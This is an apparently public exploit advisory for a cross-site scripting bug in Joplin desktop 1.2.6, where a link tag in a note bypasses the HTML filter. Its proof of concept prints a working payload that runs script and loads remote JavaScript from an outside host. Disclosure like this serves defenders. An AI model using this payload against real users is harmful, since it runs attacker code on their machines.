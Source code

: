 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-09-21
 Exploit Author: Philip Holbrook (@fhlipZero)
 Vendor Homepage: https://joplinapp.org/
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6
 Version: 1.2.6
 Tested on: Windows / Mac
 CVE : PENDING
 References:
 PENDING next release

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>


![Screen Shot 2020-10-27 at 4.42.34 PM.png](./60b6772ab455487b92268ad45a6dd677.png)

![Screen Shot 2020-10-27 at 4.42.51 PM.png](./7f76fb066b9d4e3bad4c4b59538140e4.png)

